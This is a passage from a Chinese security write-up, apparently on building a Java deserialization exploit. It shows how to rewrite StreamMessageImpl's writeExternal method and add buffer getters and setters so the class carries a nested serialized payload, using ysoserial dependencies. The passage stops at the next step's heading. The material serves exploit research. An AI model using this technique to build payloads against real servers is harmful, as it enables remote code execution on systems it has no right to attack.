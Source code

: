 ### <a class="reference-link" name="0x1%20%E9%87%8D%E5%86%99StreamMessageImpl%E5%BA%8F%E5%88%97%E5%8C%96%E6%96%B9%E6%B3%95"></a>0x1 重写StreamMessageImpl序列化方法

需要修改StreamMessageImpl类的writeExternal代码实现写入自定义数据。再次分析readExternal的操作，提取出如下关键代码：

```
public void readExternal(ObjectInput var1) throws IOException, ClassNotFoundException `{`
    super.readExternal(var1);
    var1.readByte();
    var1.readInt();
    var1.readObject();
......
    `}`
```

我们需要做的就是在序列化的操作与反序列化中的操作对应起来。因此在序列化时需要实现如下代码

```
public void writeExternal(ObjectOutput paramObjectOutput) throws IOException `{`
    super.writeExternal(paramObjectOutput);
    paramObjectOutput.writeByte(1);
    paramObjectOutput.writeInt(DataSize);
    paramObjectOutput.write(DataBuffer);
```

关于DataSize和DataBuffer的相关分析在上面的可行性分析中讨论过。我们将StreamMessageImpl类代码从jar包中提取出来，因此可以任意增删代码。可以删除不必要的代码（比如readExternal方法在序列化时不太需要），并添加如下关键代码，为二次反序列化做准备

```
public final byte[] getDataBuffer() `{`
    return this.buffer;
`}`

public final int getDataSize() `{`
    return this.length;
`}`

public final void setDataBuffer(byte[] var1, int var2) `{`
    this.buffer = var1;
    this.length = var2;
`}`
```

因为StreamMessageImpl继承了抽象类MessageImpl，一些方法还不能删除。

### <a class="reference-link" name="0x2%20%E5%AF%BC%E5%85%A5%E4%BE%9D%E8%B5%96%E5%BA%93"></a>0x2 导入依赖库

导入ysoserial中的permit-reflect-0.3.jar以及StreamMessageImpl中的一些必要依赖

[![](https://p0.ssl.qhimg.com/t01e36162a1dc200fab.png)](https://p0.ssl.qhimg.com/t01e36162a1dc200fab.png)

### <a class="reference-link" name="0x3%20%E6%95%B4%E5%90%88%E5%B0%81%E8%A3%85"></a>0x3 整合封装
